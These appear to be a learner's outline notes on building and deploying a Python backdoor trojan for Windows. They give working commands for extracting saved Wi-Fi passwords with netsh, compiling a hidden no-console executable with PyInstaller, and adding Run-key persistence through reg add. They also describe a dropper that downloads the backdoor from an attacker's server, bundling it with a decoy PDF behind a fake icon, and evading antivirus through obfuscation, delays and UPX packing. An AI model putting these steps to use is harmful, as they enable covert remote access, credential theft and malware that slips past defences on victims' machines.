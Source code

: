 - ## py-backdoor
	- Initial Execution
	- ![Screenshot 2024-08-07 002322.png](../assets/Screenshot_2024-08-07_002322_1722970924517_0.png)
	- Execution after Boot [ Windows-Persistence]
	- ![Screenshot 2024-08-07 002050.png](../assets/Screenshot_2024-08-07_002050_1722970918144_0.png)
- ### </>
	- **WiFi-Password Extraction**
		- To show all networks - `netsh wlan show profile`
		- To display details of a particular network - `netsh wlan show profile <network name> key=clear`
- ### Packaging - Download and Execute
	- `Pyinstaller`
		- `pip install pyinstaller` - convert `.py` to executables
			- **note:** architecture of the target and the attack machine must be the same for this to work
			- `pyinstaller client.py --onefile`
			- `pyinstaller backdoor.py --onefile --noconsole -n client.exe`
	- **Silent Execution**
		- `sys.exit() # reliable exit -> prevents error message from being displayed`
		- To execute with no console`pyinstaller client.py --onefile --noconsole`
			- `subprocess.check_output()` interacts with `stdio` and `stderr` by default
				- to disable interaction
					-
					  ```
					  DEVNULL = open(os.devnull,'wb')
					  return subprocess.check_output(command, 
					                                shell=True,
					                                stderr=DEVNULL,
					                                stdin=DEVNULL)
					  ```
	- **Persistence**
		- Key - `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`
			- Fields
				- Name - `/v`
				- Type - `/t`
				- Data - `/d`
		- Modify key
			- `reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Scheduler /t REG_SZ /d C:/Users/user1/AppData/Roaming/scheduler.exe /f`
		- **note**- since the backdoor starts every time the computer starts; if the listener is not running error will be raised -> to prevent this add `try-catch` to `main`
	- `troj_exp.py`
		- downloads the image file and runs it
		- checks to see if backdoor is already present in `appdata` directory
		- if not present it downloads the file from the attacker's python server where both thr `.exe` and `image.png` are served
	- Disadvantages with previous build
		- The target need an internet connection when running the trojan
		- Malware files have to be accessible via direct URL
		-
- ### Packaging - Combine Dummy w/ Backdoor
	- `pyinstaller --add-data "../dummy/image.png:." --onefile --noconsole backdoor.py -n scheduler.exe`
		- `--add-file` - `src-file-path:.` ; `:.` tell pyinstaller to keep the front files in the default application temp directory
		- The code below executes the front files
		-
		  ```
		  file_name = sys._MEIPASS + "\Resume.pdf"
		  subprocess.call(file_name, shell = True)
		  ```
	- **mask executable** with `.ICO`
		- `pyinstaller --add-data "../dummy/Template.pdf:." --onefile --noconsole backdoor.py -n Template --icon <path-to-ico-file>`
		- ![image.png](../assets/image_1722969936363_0.png)
- ### AV-Evasion
	- Detection Mechanisms
		- Signature-based bypass measures
			- useless operations - loops, arithmetic etc.
			- encoding and obfuscation
		- Behaviour-based bypass measures
			- Delay execution - use `time.sleep()`
			- Run normal trusted operations before malicious execution
	- Compress `exe` - `upx`
		- `./upx /<path-to-backdoor.exe> -o compressed_backdoor.exe`
	- `IDAPro` can be used to modify the binary itself

